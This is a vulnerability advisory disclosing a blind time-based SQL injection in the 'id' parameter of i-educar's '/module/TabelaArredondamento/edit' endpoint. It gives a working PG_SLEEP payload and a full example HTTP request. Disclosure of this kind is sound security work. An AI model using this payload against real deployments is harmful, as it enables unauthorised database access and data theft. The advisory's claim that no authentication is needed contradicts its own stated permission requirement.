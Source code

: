 # SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `/module/TabelaArredondamento/edit` Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `/module/TabelaArredondamento/edit` endpoint of the _i-educar_ application, specifically in the `id` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/module/TabelaArredondamento/edit`  
**Parameter:** `id`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Escola > Cadastros > Tipos > Regras de Avaliação > Tabelas de Arredondamento**.

<img width="1476" height="810" alt="Pasted image 20250817012555" src="https://github.com/user-attachments/assets/c08e38d1-2be3-4030-9048-a7b7672e1aed" />


Additionally, exploiting this vulnerability requires an account with permissions to **create/list the "Escola" menu**.

The application fails to properly validate and sanitize user input in the `id` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR`

This payload triggers a **5-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
POST /module/TabelaArredondamento/edit?id=1'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 680
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/module/TabelaArredondamento/edit?id=1
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

<img width="1126" height="1006" alt="Pasted image 20250817015154" src="https://github.com/user-attachments/assets/0f572426-2095-4cd8-a4bd-03226b4fbe75" />


Observe the increased server response time, confirming that the injected SQL command was executed.

---

## Impact

- **Unauthorized data access:** Reading sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting database schema, tables, and column details
    
- **Data manipulation:** Adding, modifying, or deleting database records
    
- **Denial of Service (DoS):** Using time-based queries to impact system availability
    
- **Potential escalation to RCE:** If combined with other vulnerabilities and specific database features
    

This vulnerability affects all users who can interact with the vulnerable parameter, and it can be exploited remotely without prior authentication if the endpoint is exposed.

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
